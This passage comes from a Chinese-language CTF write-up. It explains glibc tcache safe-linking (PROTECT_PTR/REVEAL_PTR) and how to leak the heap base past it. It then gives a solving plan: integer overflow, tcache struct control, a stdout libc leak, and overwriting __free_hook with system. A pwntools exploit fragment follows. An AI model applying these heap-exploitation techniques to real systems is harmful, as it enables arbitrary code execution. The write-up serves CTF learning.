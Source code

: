    ```c
     tcache->entries[tc_idx] = REVEAL_PTR (e->next);
     --(tcache->counts[tc_idx]);
     e->key = NULL;
     return (void *) e;
   }
   ```

   * 新增了在从 tcache 中取出 chunk 时会检测 chunk 地址是否对齐的保护

   * 引入了两个新的宏对 tcache 中`存/取` chunk 的操作进行了一层保护，即在 new chunk 链接 tcache 中 old chunk 时会进行一次异或运算，代码如下：

     ```c
     #define PROTECT_PTR(pos, ptr) \
       ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
     #define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
     ```

   简单解释一下，便是 `chunk->fd` 存放的不再是前一个 chunk 的地址了，而是 `&chunk->fd` 与 `chunk->fd` 的异或结果。因此，我们要想实现任意地址分配，必须先泄露 heap 基址，才能实施后续的攻击手段。

   不过幸运的是，`tcache struct` 保存的是原始的 chunk 地址，因此如果我们能控制它，依然可以自由地任意地址分配。

   另外，这种简单的异或加密方式给 tcache 提高了不少的安全系数，但是同样也提供给我们新的泄露堆基址的途径。我们不难观察到，在 tcache 的一个 entry 中放入第一个 chunk 时，其同样会对该 entry 中的 chunk （NULL）进行异或运算后写入到将放入 tcache 中的 chunk 的 `fd` 字段，若是我们能够打印该 free chunk 的fd字段，**便能够直接获得未经异或运算的堆上相关地址**。

4. 解题思路

   题目对我们申请 chunk 的大小进行了限制，要求不能大于 `player.charm`。这里，我们可以首先利用无符号整数溢出漏洞，将我们的 `player.money` 变成很大的数字，然后便可以利用 `improving` 功能提高我们的 `player.charm`，最多可以到达 `520`。另外，我们还可以通过 `buying` 来买房买车，得到那次 `edit` 机会。接下来，剩下的便是经典的菜单题目了。

   题目只有 1 次 `show` 和 2 次 `edit` 的机会，那么这个 `show` 的机会，我们只能用于泄露 heap 地址。另外还有两次 `edit` 机会，我们则可以利用它来控制 `tcache struct`。

   那么，我们已经使用过 `show` 了，那么如何泄露 libc 机制呢？这里，我们可以利用 `stdout` 来进行信息泄露，具体可以参考这篇[文章](http://blog.eonew.cn/archives/1190)。通过这种方法泄露了 libc 基址，那么我们修改 `__free_hook` 为 `system` 地址，便可 `getshell` 了。

   * 首先，通过 `show` 功能和 `edit` 功能，泄露 heap 并控制 `tcache struct`：

     ```python
     	add(b'callmecro', 0x80)
     	delete(0)
     
     	sla(b'Choice: ', b'6')
     	sla(b'marry?', b'0')
     	ru(b'commitment to you: ')
     	heap_addr = (u64(rl().ljust(0x8, b'\x00')) ^ 0) << 12
     	log.success('heap_addr: 0x%x', heap_addr)
     
     	sla(b"groom: ", p64((heap_addr) >> 12).ljust(0x10, b'\x00'))
     	sla(b"nickname: ", (b'A'*0x8).ljust(0x10, b'\x00'))
     	delete(0)
     
     	sla(b'Choice: ', b'999')
     	sla(b'friends: ', b'0')
     	sla(b'heart: ', p64(((heap_addr + 0x2a0) >> 12) ^ (heap_addr+0x10)))
     ```
